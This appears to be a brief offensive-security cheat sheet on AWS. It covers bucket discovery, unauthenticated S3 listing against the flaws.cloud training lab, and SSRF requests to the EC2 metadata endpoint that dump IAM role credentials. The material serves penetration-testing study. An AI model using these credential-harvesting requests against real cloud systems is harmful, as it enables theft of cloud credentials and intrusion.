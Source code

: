 AWS
===

## Check if domain is on a bucket
```
$ dig +nocmd flaws.cloud any +multiline +noall +answer
```

## List a bucket
```
$ aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

## Ressources
http://flaws.cloud/

## SSRF on AWS to get credentials
On AWS there is a metadata server that can be accessed through the REST API located at: `http://169.254.169.254`. Sending a GET requests to the following endpoint will dump a list of roles that are attaches to the current EC2 instance.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

